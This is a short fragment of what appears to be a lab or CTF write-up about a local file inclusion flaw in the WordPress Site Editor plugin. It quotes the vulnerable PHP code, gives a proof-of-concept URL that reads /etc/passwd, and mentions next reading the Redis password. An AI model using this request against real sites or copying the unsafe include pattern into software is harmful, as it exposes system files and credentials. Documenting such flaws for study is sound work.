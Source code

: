 The first one said that have a LFI, then try to use this LFI.

```bash
Vulnerable code:
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

It's work.

<img src="../Images/image-20230815173021332.png" alt="image-20230815173021332" style="zoom:80%;" />

Then try to load `redis` password.

<img src="../Images/image-20230815174843628.png" alt="image-20230815174843628" style="zoom:80%;" />
